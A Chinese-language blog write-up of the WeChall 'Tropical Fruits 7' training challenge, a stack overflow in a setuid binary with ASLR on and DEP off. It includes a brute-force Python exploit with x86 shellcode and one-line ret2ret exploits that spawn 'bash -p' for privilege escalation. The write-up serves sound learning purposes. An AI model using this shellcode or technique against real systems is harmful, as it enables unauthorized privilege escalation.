 ```yaml
---
title: 'Writeup-Training: Warchall &#8211; 7 Tropical Fruits'
layout: post
categories: blog
tags: [Hack, Python, Writeup]
share: true
---
```

<p style="color: #000000;">
  Challenge URL：<a style="color: #294666;" href="http://www.wechall.net/challenge/warchall/tropical/7/index.php">Training: Warchall &#8211; 7 Tropical Fruits</a>
</p>

Wechall的tropic这道题真是撸得我考试周复(yu)习(xi)都没心思了，花了两天半终于搞定了，才63人做出来的题目居然是training！！！

做这题的时候也是我第一次写shellcode，不过这道题难点不在于shellcode怎么写，而在于坑爹的ASLR。不说stack的地址一直在变，居然连linux-gate.so都在变！

一开始查了好久，发现个思路叫ret2libc，然后我gdb了一下，发现system()的地址虽然是随机的，但是有6位是不变的。然后我就撸啊撸，撸了个shell脚本，速度不错，居然半分钟之内就能把system(&#8220;sh&#8221;)跑出来。看到&#8221;sh-4.2$&#8221;的时候我那叫一个激动啊。坑爹的是system()这货执行的时候居然会丢掉suid的权限(man system#NOTES)。

所以忙活了一天，我的成果就是，在一个shell下面，再开一个shell&#8230;&#8230;

然后第二天我不甘心啊，就找啊找找啊找，找到了exec函数族。

{% highlight c %}
#include <unistd.h>
extern char **environ;
int execl(const char *path, const char *arg, ...);
int execlp(const char *file, const char *arg, ...);
int execle(const char *path, const char *arg, ..., char * const envp[]);
int execv(const char *path, char *const argv[]);
int execvp(const char *file, char *const argv[]);
int execve(const char *path, char *const argv[], char *const envp[]);
//其中只有execve是真正意义上的系统调用，其它都是在此基础上经过包装的库函数。
{% endhighlight %}

这货厉害，suid会传递下去，但是悲催的是每个函数的参数不止一个，而且大多都要求最后一个参数为NULL(直接无视)，但是execv之类的函数又不方便构造后面的那些二阶指针，所以我昨天就是在满屏的Segmentation Fault中度过的，偶尔出现的Invalid Instruction能让人高兴好一阵。

第二天无果，不过我cat了一下compile7.sh，发现了好玩的东西

{% highlight sh %}
#!/bin/bash
gcc -fno-stack-protector -z execstack level7.c -o level7
chmod 6755 level7
{% endhighlight %}

是的&#8230;出题者把DEP关掉了&#8230;然后我就睡不着了

## 解法：

今天早上考完离散就立马赶回寝室继续撸这道题，虽然解法很很蠢(对stack的5个随机位进行碰撞)，但是至少能在10分钟内出结果……

先给solution.txt建一个到工作目录软连接:

{% highlight sh %}
$ ln -s /home/level/tropic/7/solution.txt ./lk
{% endhighlight %}


然后跑这个python脚本：

{% highlight python %}
# -*- coding=utf8 -*-
__author__ = 'Cubarco'


def tropic_crack():
    try:
        shellcode = "1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk" \
                    "\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80"
        stack_hex = hex(random.randint(0xbf00000, 0xbffffff)*0x10+0x01)[:-1]
        stack_int = int(stack_hex, 16)
        path = "/home/level/tropic/7/level7"
        args = [path,
                '\x90'*(312-len(shellcode))
                + shellcode
                + struct.pack('&lt;L', stack_int)]
        args[1] = args[1].replace("(", "\\(")\
                         .replace("\"", "\\\"")\
                         .replace(")", "\\)")\
                         .replace("\\", "\\\\")\
                         .replace("\'", "\\\'")
        p = subprocess.Popen(args,
                             stdout=subprocess.PIPE,
                             stderr=subprocess.PIPE,
                             shell=False)
        rsp = p.stdout.read()
        if rsp != '':
            print rsp
    except:
        # print traceback.format_exc()
        # 好像subprocess开太快了会出问题...
        pass


if __name__ == '__main__':
    import struct
    import random
    import subprocess
    import traceback
    
    while True:
        tropic_crack()
{% endhighlight %}

做完题去题解讨论区看到个ret2ret的思路感觉好棒，有时间研究一下。

对了，跑脚本的时候如果它卡住了而且ctrl+c关不掉请不要来打我。正确姿势是killall&#8230;..

UPDATE: 刚看了一下ret2ret，我想去死一死了。是的，只用下面一句话就能搞定，oh，前提还是给solution.txt建立一个到工作目录的软链接，名字是lk（其实是因为./lk刚好是四字节， 如果用原来的路径好麻烦还要四字节对齐，偷个懒）

{% highlight sh%}
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'1\xc0\x99Rh/cath/bin\x89\xe3Rh./lk\x89\xe1\xb0\x0bRQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
# 0x080484d2是程序里面一个执行ret指令的地址，随便挑！
{% endhighlight %}

更BT一点还可以这样，跑一个/bin/bash -p：

{% highlight sh%}
$ /home/level/tropic/7/level7 `python -c "print '\x90'*(312-33)+'j\x0bX\x99Rfh-p\x89\xe1Rjhh/bash/bin\x89\xe3RQS\x89\xe1\xcd\x80'+'\xd2\x84\x04\x08'"`
bash-4.2$ id
uid=4057(cubarco) gid=4057(cubarco) egid=1008(level7) groups=4057(cubarco)
# 然后你就有level7的egid了...
{% endhighlight %}

##  参考：

  1. Hackers Hut#[Smashing The Stack][1](ASLR bypassing overview)
  2. [Performing a ret2libc Attack][2](ret2libc)
  3. [Return-to-libc Attack Lab][3](ret2libc)
  4. [Smack the Stack][4](ret2ret)

 [1]: http://www.win.tue.nl/~aeb/linux/hh/hh-10.html
 [2]: http://protostar-solutions.googlecode.com/hg/Stack%206/ret2libc.pdf
 [3]: http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Return_to_libc/Return_to_libc.pdf
 [4]: http://web.textfiles.com/hacking/smackthestack.txt
